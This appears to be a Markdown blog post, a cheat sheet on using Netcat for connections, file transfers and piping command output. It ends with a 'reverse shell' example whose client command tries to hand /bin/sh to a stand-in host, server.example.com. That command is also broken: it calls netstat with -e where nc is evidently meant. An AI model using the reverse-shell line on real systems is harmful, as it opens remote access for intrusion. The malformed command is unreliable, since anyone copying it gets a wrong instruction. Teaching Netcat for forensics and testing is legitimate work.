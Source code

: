 ```yaml
---
title: Netcat
category: generic
tags: forensics
layout: post
---
```



When working either in forensics, penetration testing, or hacking around in general, Netcat is a vital tool to know.
It's acts as a very thin layer of TCP, converting a network socket into terminal I/O.
A system is set up to listen on a port, and another system connects to that port.
The standard input of one end ends up on the standard output of the other end, and vice versa.
See the [man page](https://www.commandlinux.com/man-page/man1/nc.1.html).

If available, [Ncat](https://nmap.org/ncat/) is generally a more featured version of `nc`.

## Usage
```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

## Examples
### Basic connection
Connect over port 1337:

Server:
```
$ nc -l -p 1337
```

Client:
```
$ nc server.example.com 1337
```

### Transfer a file
All you have to do for file transfer is redirect stdin/stdout the same way you would for
[Linux]({% post_url linux/2018-04-20-bash %}) or [Windows]({% post_url windows/2018-04-20-cmd %}).

Server:
```
$ nc -l -p 1337 > out-file.txt
```

Client:
```
$ < out-file.txt nc server.example.com 1337
```

### Transferring the output of a command
Use pipes as you normally would.

Server:
```
$ nc -l -p 1337 > netstat-results.txt
```

Client:
```
$ netstat -tualpn | nc server.example.com 1337
```

Pro tip: if you are having trouble reading the output of Linux commands on Windows, it's probably due to line endings.
Don't use Notepad - use Notepad++, Sublime, VSCode, or any other decent editor.

### Opening a reverse shell
While not often done in forensics, understanding how to use a reverse shell is valuable.

Server:
```
$ nc -l -p 1337
```

Client:
```
$ netstat -e /bin/sh server.example.com 1337
```
